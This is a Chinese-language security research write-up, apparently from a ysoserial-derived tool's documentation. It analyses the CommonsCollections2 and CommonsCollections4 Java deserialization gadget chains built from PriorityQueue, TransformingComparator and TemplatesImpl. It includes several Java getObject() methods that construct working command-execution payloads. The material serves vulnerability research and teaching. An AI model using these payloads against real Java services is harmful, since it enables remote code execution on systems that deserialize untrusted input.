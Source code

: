 ```yaml
---
sidebar_position: 1
tags: [ysoserial, PPPYSO]
#slug: About Me
#title: About Me
---
```


# CommonsCollections2、4

## 0x01 TransformingComparator

前面分析的几条 CC 链都是 commons-collections < 3.x 版本的利用，之后 Apache 开发不再延续这个版本，而是推出了新的 4.x 版本。还是和分析 3.x 一样找调用了 `transform()` 的方法，定位到 `org.apache.commons.collections4.comparators.TransformingComparator#compare()`。

这个类不存在对 `readobject()` 和 `compare()` 的调用，不能作为 kick-off ，但实现了 `Serializable` 接口，这是 gadget 形成的必要条件，标记一下，继续看别的类。

![image-20230809102252027](attachments/image-20230809102252027.png)

## 0x02 PriorityQueue

CC2 中使用的 kick-off 是 `PriorityQueue` 。这是一个 jdk 的原生集合，是基于优先级堆的无限制优先级队列，默认情况下元素根据自然顺序进行排序，也可以在构建时指定比较器 `Comparator` 进行排序。

`PriorityQueue#readObject()` 中，先将数据反序列化还原为 queue，再调用 `heapify()` 进行排序，`heapify()` 中对 size 进行移位，size 值可以通过反射修改或直接 add 俩元素增加数组长度

![image-20230809103214438](attachments/image-20230809103214438.png)

![image-20230809103252608](attachments/image-20230809103252608.png)

然后通过 `heapify()` 调用 `siftDown()`，满足 `comparator` 非空的条件进入 `siftDownUsingComparator()`

![image-20230809103313136](attachments/image-20230809103313136.png)

在  `siftDownUsingComparator()` 找到调用 `comparator.compare()` 的代码可以与先前构造的 Chain 拼接

![image-20230809103502450](attachments/image-20230809103502450.png)

## 0x03 去除Transformer[]

```java
    public Queue<Object> getObject(final String command) throws Exception {
        Object templatesImpl = Gadgets.createTemplatesImpl(command);

        // inert chain for setup
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{new ConstantTransformer(1)});
        // real chain for after setup
//        final Transformer[] transformers = new Transformer[]{
//                new ConstantTransformer(TrAXFilter.class),
//                new InstantiateTransformer(
//                        new Class[]{Templates.class},
//                        new Object[]{templatesImpl})};
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templatesImpl),
                new InvokerTransformer("newTransformer", new Class[0], new Object[0]),
                new ConstantTransformer(1),
        };
        PriorityQueue<Object> queue = new PriorityQueue<>(2);
        queue.add("1");
        queue.add("2");
        // Reflections.setFieldValue(queue, "size", 2);
        TransformingComparator transformingComparator = new TransformingComparator(transformerChain);
        Reflections.setFieldValue(queue, "comparator", transformingComparator);
        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);

        return queue;
    }
```

先按我们的方式通过 `TemplatesImpl` 实现，但是这里我们还是使用了 Transformer[] 与 ysoserial 的不同，在 [wh1t3p1g](https://www.anquanke.com/post/id/192619) 的文章中介绍了怎么在 3.2.1 环境下的无数组改造，这篇文章紧扣 shiro 来分析为什么需要改造以及怎么改造。现在的话还是基于 4.0 铺开， 先看看这个数组中的元素， `InvokerTransformer` 的目的是调用 `newTransformer` 方法，而 `ConstantTransformer` 的作用是初始化一个恶意对象，在 CC1 的分析中提到这是为了解决 `AnnotationInvocationHandler.readobject()` 中 value 被 `AnnotationTypeMismatchExceptionProxy` 封装一层的问题。CC2 中并没有使用这个 kick-off，所以可以去除 `ConstantTransformer`，那么数组长度为1，就自然可以免去数组了。

```java
final Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(templatesImpl),
        new InvokerTransformer("newTransformer", new Class[0], new Object[0]),
        new ConstantTransformer(1),
};
```

整体的思路是 `InvokerTransformer` 先调用了一个无关方法，再反射将构造好的 transformer 放到数组第一位。这里使用了与 ysoserial `toString()` 不同的方法`hashCode()` ，即我们这里调用 `queue.add(1)` 添加 `Integer` 对象。使用 `hashCode()` 来进行举例的原因是 `toString()` 和 `hashCode()` 一样都在 `Object` 对象中存在。

```java
public Queue<Object> getObject(final String command) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command);
    // mock method name until armed
    final InvokerTransformer transformer = new InvokerTransformer("hashCode", null, null);

    // create queue with numbers and basic comparator
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
    // stub data for replacement later
    queue.add(1);
    queue.add(1);

    // switch method called by comparator
    Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");

    // switch contents of queue
    final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
    queueArray[0] = templates;
    queueArray[1] = 1;

    return queue;
}
```

## 0x04 为什么 TransformingComparator 需要实现 Serializable？

这个问题其实就是对 Java 序列化机制的理解程度，在分析调用链时，很多人的关注点通常都在 readObject() 上，忽略了另一个同样重要的方法，writeObject() ，将 CC2 的包换成 3 版本，就会发现在进入 `java.io.ObjectOutputStream#defaultWriteFields()`  这个方法后就会报错。

Java 类实例序列化时该类的字段需要满足以下条件之一：

1. **字段本身是基本类型或包装类型：** 基本类型（如 `int`、`double` 等）以及其对应的包装类型（如 `Integer`、`Double` 等）都是可以被序列化的。
2. **字段实现了 `Serializable` 接口：** 如果一个类的字段是自定义类的对象，那么该自定义类需要实现 `Serializable` 接口，以表明它的实例可以被序列化。
3. **字段被标记为 `transient`：** 如果一个字段被标记为 `transient`，那么它将不会被序列化。这可以用于排除某些敏感信息或不需要序列化的字段。

所以 PriorityQueue 的 comparator 字段也需要满足上述条件之一，以便该对象可以被正确序列化，`org.apache.commons.collections.comparators.TransformingComparator` 没有实现 `Serializable` 自然不能利用了。

## 0x05 CommonsCollections4

这条链可以看成CC2 和 CC3 的结合 Gadget 如下 `PriorityQueue+ TransformingComparator + Transformer + TrAXFilter + TemplatesImpl` ，顺着之前的形式写法如下。ysoserial 的写法就是用的反射去挨个构造 Transformer[] 中的 `ConstantTransformer` 和 `InstantiateTransformer`。

```java
public Queue<Object> getObject(final String command) throws Exception {
    Object templates = Gadgets.createTemplatesImpl(command);

    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
            new Transformer[]{new ConstantTransformer(1)});
    // real chain for after setup
    final Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(TrAXFilter.class),
            new InstantiateTransformer(
                    new Class[]{Templates.class},
                    new Object[]{templates})};

    // create queue with numbers
    PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(transformerChain));
    queue.add(1);
    queue.add(1);
    Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
    return queue;
}
```



